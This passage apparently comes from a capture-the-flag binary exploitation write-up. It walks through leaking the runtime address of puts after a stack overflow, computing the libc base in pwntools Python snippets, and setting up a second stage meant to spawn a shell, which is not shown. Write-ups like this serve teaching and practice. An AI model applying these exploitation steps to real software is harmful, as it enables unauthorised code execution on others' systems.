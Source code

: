![check_stack_of_first_stage.png](images/check_stack_of_first_stage.png)

The address highlighted in green is saved rip and the one highlighted in pink is address of main(). So it will print the address of puts out and execute main again. Let's get the libc address and find the base address of libc:

```python
p.recvline()
puts_addr = u64(p.recvline()[:-1] + b'\0\0')
log.info(hex(puts_addr))
```

With the leaked address, we will get the libc from docker to find the libc base:

```python
libc.address = puts_addr - libc.sym['puts']
log.info(hex(libc.address))
```

Now, when the program execute main again, payload 0x30, 0x31, 0x32 is the same and we cannot change anything of it, but we can change payload of 0x35 so we can get shell with the next stage.

